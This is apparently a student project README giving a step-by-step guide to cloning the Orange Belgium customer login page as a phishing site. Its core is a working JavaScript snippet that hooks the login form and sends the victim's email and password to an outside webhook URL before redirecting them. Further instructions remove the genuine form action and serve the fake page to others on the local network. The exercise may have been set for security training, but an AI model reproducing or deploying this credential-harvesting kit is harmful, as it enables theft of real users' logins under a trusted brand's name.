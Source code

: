 # Simulate the Orange Customer Connexion Webpage

## 1) Get the source code of the page

- Go to : https://www.orange.be/fr/e-services/login
- ctrl + s or right click and "save as"

## 2) Get a webhook

- Go to : webhook.site
- Copy the url (you gonna need it soon)

## 3) Write a script to return info to webhook

- open a new JS file here ´data.JS´
- write this script (and use the url of the webhook)

>  let myForm = document.getElementById('sso-form');  // "let name" create a variable and then we put in it the content of an id. Here id of the form
>  let formEmail = document.getElementById('sso-email'); // id of the mail input
>  let formPassword = document.getElementById('sso-password');// id of the password input
>  
>  myForm.addEventListener('submit', (e) => { // we wait for specific moment to run, here it's the submit button
>    e.preventDefault();
>   fetch('https://webhook.site/ccbd4eb0-f4b0-48c0-96da-4a96ab73004c', { //when it's in action the script fetch the data and return it to the web hook url
>       method: "POST",
>        body: JSON.stringify({ //this line transform the data we collect (who's in json format) and transform it into strings
>            username: formEmail.value, //here we say to stock those string into the variable we have creat on the top
>            password: formPassword.value
>        })
>    }).then(window.location.href = "https://www.youtube.com/watch?v=dQw4w9WgXcQ&ab_channel=RickAstley"); // after all of this the user is redirected to this URL
>  })
>
> [![](https://github.com/Mahgnislaw/BecodeProjects/blob/main/2_The%20hill/Phishing/Phising%20Site/Orange/img/data.js.png)


## 4) Make some change on the HTML 

- remove this part from sso-form :
>  action="https://sso.orange.be/auth/sm/login.fcc" data-soho-check="/e-services/userCheck/b2b" data-soho-target="https://e-services.business.orange.be/fr/espace-client-soho/?fromB2C=true">

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

**Normaly it should work localy**

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------


## Make a local server to host it

- Dont forget to rename your webpage into index.html
- on your folder open the terminal and write this command to launch a python server `py -m http.server` (the default port is 8000)
- You can acces your webpage with localhost:8000
- Other person on the same network can have acces to id with yourIP:8000


**Eazy Peazy Lemon Squezzy**
